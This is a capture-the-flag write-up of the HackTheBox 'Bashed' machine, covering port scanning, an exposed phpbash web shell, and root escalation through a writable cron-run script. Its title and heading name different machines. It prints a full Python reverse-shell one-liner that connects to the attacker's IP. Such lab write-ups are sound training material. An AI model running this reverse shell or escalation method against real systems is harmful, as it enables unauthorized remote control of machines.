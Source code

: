 ```yaml
---
layout: page
title: Bashed - HackTheBox
permalink: /posts/ctf/hackthebox/bashed.html
---
```


# Debug - CyberSecLabs
----


First things first, lets run our nmap scan.  I use a custom script that scans for ports then passes those open ports to nmap for service enumeration, however you can achieve the same results with the below command.

`nmap -p- -A 10.10.10.68`

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/6ebbfad0-e386-40b7-be18-d3ca512f4ffb/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/6ebbfad0-e386-40b7-be18-d3ca512f4ffb/Untitled.png)

Looks like we only have one port open, lets check out the web server.

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/40ef0738-f492-4480-9ff5-243cb19d867a/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/40ef0738-f492-4480-9ff5-243cb19d867a/Untitled.png)

phpbash.. interesting.  Looking into this it looks like its an open source project for interacting with the server via a web-shell.  I enumerated for directories using dirsearch to see if I could find the file.

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/c03db387-e1b0-4cf0-8d5f-e59bca59a924/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/c03db387-e1b0-4cf0-8d5f-e59bca59a924/Untitled.png)

After checking out these directories, I found that the **/dev/** directory has the **phpbash.php** file.

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/46296f2f-d97b-4a38-85b2-f8200e46477b/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/46296f2f-d97b-4a38-85b2-f8200e46477b/Untitled.png)

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/a6017d7a-1540-4d55-8ecf-0b88342f5e09/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/a6017d7a-1540-4d55-8ecf-0b88342f5e09/Untitled.png)

Looks like it works, now lets try to get a reverse shell connected to our local machine so we can get an interactive shell.

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.31",53));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/2d2c4ba2-9b36-4d0a-88e0-d5a3e95108a3/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/2d2c4ba2-9b36-4d0a-88e0-d5a3e95108a3/Untitled.png)

Now that we have an interactive shell, lets copy LinPEAS over and see what we find

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/7fc01b68-3822-4c81-a3cb-882ab122eab0/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/7fc01b68-3822-4c81-a3cb-882ab122eab0/Untitled.png)

Looks like we can run any command as **scriptmanager** with no password, so lets run **/bin/bash** to get a shell as this user.

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/11e835ee-7bd7-412c-aeb1-bfed6c3cf785/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/11e835ee-7bd7-412c-aeb1-bfed6c3cf785/Untitled.png)

Now that we are the **scriptmanager** user, we can enumerate the machine to see if we can escalate to root.  After some digging we find a directory called **scripts** that has the following files.

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/e0673a86-ff16-46b3-acc8-21d879bcdea8/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/e0673a86-ff16-46b3-acc8-21d879bcdea8/Untitled.png)

Looking at the source code of **[test.py](http://test.py)**, I see that it simply opens the file **test.txt** and writes some data in it.  However **test.txt** is owned by root, so even though we are the owner of the script, we need to run this as root to actually write to the file.  However after a few minutes we notice that the **test.txt** file has a new "last modified" time on it, indicating that we have a cron job executing the **test.py** script.

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/3d099987-db74-4de7-8936-283c54d11a47/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/3d099987-db74-4de7-8936-283c54d11a47/Untitled.png)

Since we have write access to this file, we can modify the file to connect to our local machine.  Since this script is being run as root, we should get a shell back as root.

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/c3f19203-f161-47f1-9c0b-8827e7d61341/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/c3f19203-f161-47f1-9c0b-8827e7d61341/Untitled.png)

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/40235990-57e0-454b-bff7-2fca34b387ee/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/40235990-57e0-454b-bff7-2fca34b387ee/Untitled.png)
